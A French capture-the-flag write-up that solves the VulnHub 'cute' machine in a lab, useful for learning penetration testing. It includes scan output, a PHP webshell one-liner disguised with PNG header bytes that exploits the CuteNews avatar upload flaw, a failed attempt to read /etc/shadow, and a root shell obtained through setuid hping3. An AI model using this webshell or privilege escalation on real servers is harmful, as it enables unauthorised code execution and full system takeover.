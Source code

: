 # Solution du CTF Cute de VulnHub

Ayant résolu déjà 2 CTFs de foxlox (ICMP et Boverflow) et les trouvant plutôt intéressants j'ai décidé de continuer avec celui-ci. Je ne sais pas exactement quel est son nom il est désigné comme [BBS (cute): 1.0.2](https://www.vulnhub.com/entry/bbs-cute-102,567/) sur VulnHub.

```
Nmap scan report for 192.168.56.45
Host is up (0.00026s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
|_  256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: PIPELINING LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) UIDL TOP USER UTF8(USER) STLS
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) IMPLEMENTATION(Courier Mail Server) UIDL TOP USER UTF8(USER) PIPELINING
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Not valid before: 2020-09-17T16:28:06
|_Not valid after:  2021-09-17T16:28:06
```

## Mignon tout plein

On a ici deux services HTTP, l'un sur le port standard, l'autre sur le port 88. Il y a aussi un serveur de messagerie.

Les deux sites ne retournant rien d'intéressant, je commence par chercher sur le port 80 des fichiers/dossiers intéressants :

```shellsession
$ feroxbuster -u http://192.168.56.45/ -w discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.45/
 🚀  Threads               │ 50
 📖  Wordlist              │ filename-dirname-bruteforce/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      316c http://192.168.56.45/uploads
301        9l       28w      313c http://192.168.56.45/docs
301        9l       28w      314c http://192.168.56.45/skins
301        9l       28w      313c http://192.168.56.45/libs
301        9l       28w      313c http://192.168.56.45/core
301        9l       28w      321c http://192.168.56.45/skins/images
301        9l       28w      316c http://192.168.56.45/libs/js
301        9l       28w      317c http://192.168.56.45/libs/css
301        9l       28w      322c http://192.168.56.45/core/includes
301        9l       28w      321c http://192.168.56.45/core/modules
301        9l       28w      319c http://192.168.56.45/core/tools
301        9l       28w      318c http://192.168.56.45/core/lang
301        9l       28w      319c http://192.168.56.45/libs/fonts
301        9l       28w      321c http://192.168.56.45/core/captcha
301        9l       28w      315c http://192.168.56.45/manual
301        9l       28w      322c http://192.168.56.45/manual/images
301        9l       28w      318c http://192.168.56.45/manual/en
301        9l       28w      318c http://192.168.56.45/manual/de
301        9l       28w      318c http://192.168.56.45/manual/fr
301        9l       28w      321c http://192.168.56.45/manual/style
301        9l       28w      318c http://192.168.56.45/manual/es
301        9l       28w      323c http://192.168.56.45/manual/en/misc
301        9l       28w      323c http://192.168.56.45/manual/fr/misc
301        9l       28w      319c http://192.168.56.45/skins/base
200      128l      671w     9844c http://192.168.56.45/manual/fr/
301        9l       28w      322c http://192.168.56.45/manual/fr/faq
301        9l       28w      322c http://192.168.56.45/manual/fr/ssl
301        9l       28w      322c http://192.168.56.45/manual/fr/mod
301        9l       28w      327c http://192.168.56.45/manual/fr/programs
200      128l      611w     9544c http://192.168.56.45/manual/de/
301        9l       28w      327c http://192.168.56.45/manual/fr/platform
301        9l       28w      327c http://192.168.56.45/manual/de/platform
301        9l       28w      326c http://192.168.56.45/manual/de/rewrite
301        9l       28w      319c http://192.168.56.45/migrations
200       99l      452w     5717c http://192.168.56.45/manual/fr/misc/
```

Ca fait pas mal de dossiers mais ça ne me parle pas vraiment, mis à part le dossier *migrations* qui mentionne une appli web  nommée *CuteNews*.

Le listing des fichiers est plus instructif :

```shellsession
$ feroxbuster -u http://192.168.56.45/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-files.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.45/
 🚀  Threads               │ 50
 📖  Wordlist              │ ble-filepaths/filename-dirname-bruteforce/raft-large-files.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200      368l      933w    10701c http://192.168.56.45/index.html
200       63l      481w     3119c http://192.168.56.45/LICENSE.txt
200        1l       12w     1150c http://192.168.56.45/favicon.ico
403        9l       28w      278c http://192.168.56.45/.htaccess
200      368l      933w    10701c http://192.168.56.45/
403        9l       28w      278c http://192.168.56.45/.html
403        9l       28w      278c http://192.168.56.45/.php
403        9l       28w      278c http://192.168.56.45/.htpasswd
403        9l       28w      278c http://192.168.56.45/.htm
403        9l       28w      278c http://192.168.56.45/.htpasswds
200        1l        7w       91c http://192.168.56.45/captcha.php
200        1l        6w       28c http://192.168.56.45/print.php
200      168l      396w     6175c http://192.168.56.45/index.php
200        5l      204w     5118c http://192.168.56.45/search.php
200        1l        6w       28c http://192.168.56.45/popup.php
200        2l       16w      105c http://192.168.56.45/rss.php
200      155l      752w        0c http://192.168.56.45/example.php
403        9l       28w      278c http://192.168.56.45/.htgroup
403        9l       28w      278c http://192.168.56.45/wp-forum.phps
403        9l       28w      278c http://192.168.56.45/.htaccess.bak
403        9l       28w      278c http://192.168.56.45/.htuser
403        9l       28w      278c http://192.168.56.45/.ht
403        9l       28w      278c http://192.168.56.45/.htc
200        2l      380w     2987c http://192.168.56.45/show_news.php
403        9l       28w      278c http://192.168.56.45/.htaccess.old
403        9l       28w      278c http://192.168.56.45/.htacess
```

On peut voir ici que *index.php* est différent de *index.html*. Pour un Apache par défaut le html est utilisé avant le php. Si on demande exploicitement *index.php* on se retrouve finalement devant une installation de *CuteNews*.

Cette appli web est vulnérable à une vulnérabilité de type unrestricted upload (menant à un RCE) : [GitHub - ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE: Exploit Code for CVE-2019-11447 aka CuteNews 2.1.2 Avatar upload RCE (Authenticated)](https://github.com/ColdFusionX/CVE-2019-11447_CuteNews-AvatarUploadRCE)

Pour cela il faut préalablement créer un compte sur l'appli via le lien *Register*. Dans l'ensemble aucun problème pour cette opération mais à part qu'un captcha est demandé alors qu'aucune image n'apparait dans la page.

En analysant un peu la situation on voit que l'URL de l'image qui est *captcha.php* retourne en fait du texte. Il suffit de récupérer l'output du script et de recopier dans le champ captcha pour passer l'enregistrement.

L'exploitation consiste à uploader comme avatar du compte un fichier avec extension PHP qui passera la vérification du type mime.

On peut ainsi créer un script PHP qui aura un entête d'image PNG puis l'uploader :

```shellsession
$ echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00<?php system($_GET["cmd"]); ?>' > shell.php
```

De cette façon j'obtiens mon shell à l'adresse suivante :

http://192.168.56.45/uploads/avatar_devloop_shell.php?cmd=id

L'étape suivante consiste à upgrader ce webshell vers un [reverse-ssh: Statically-linked ssh server with reverse shell functionality for CTFs and such](https://github.com/Fahrj/reverse-ssh).

## Aller simple vers root, sans correspondance

Pour les autres CTFs de la série on trouve un utilisateur *fox* qui dispose du premier flag.

```shellsession
www-data@cute:/home/fox$ cat user.txt 
dcb8189a0eaf7a690a67785a7299be60
```

Mais je ne trouve rien d'intéressant permettant de passer de l'utilisateur courant (*www-data*) vers *fox*.

Il y a bien cette entrée sudo permettant d'exécuter *hping3* en tant que root mais avec l'absence d'astérisque son utilisation n'a pas de sens :

```shellsession
www-data@cute:/home/fox$ sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
```

Si on tente par exemple de rajouter le paramètre *--file* comme sur le [CTF ICMP](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20ICMP%20de%20VulnHub.md) on sort de la permission *sudo* et ce dernier demande alors le mot de passe de *www-data* que l'on ne connait pas.

Le binaire est toutefois aussi setuid root mais si on passe *--file* on a un message indiquant que l'option est désactivée quand le bit setuid est actif... sniff.

```shellsession
www-data@cute:/tmp$ /usr/sbin/hping3 --icmp --file /etc/shadow -d 100 192.168.56.1
Option disabled when setuid `--file'
```

Finalement après pas mal de recherches infructueuses je suis allé sur [l'entrée hping3 pour gtfobins](https://gtfobins.github.io/gtfobins/hping3/) et découvert qu'on pouvait utiliser le binaire comme une sorte d'interpréteur :

```shellsession
www-data@cute:/$ hping3
hping3> /bin/sh -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
0b18032c2d06d9e738ede9bc24795ff2
```

A défaut d'avoir un CTF plus long via l'utilisateur *fox* j'aurais découvert une particularité de hping3 :)

*Publié le 5 novembre 2022*
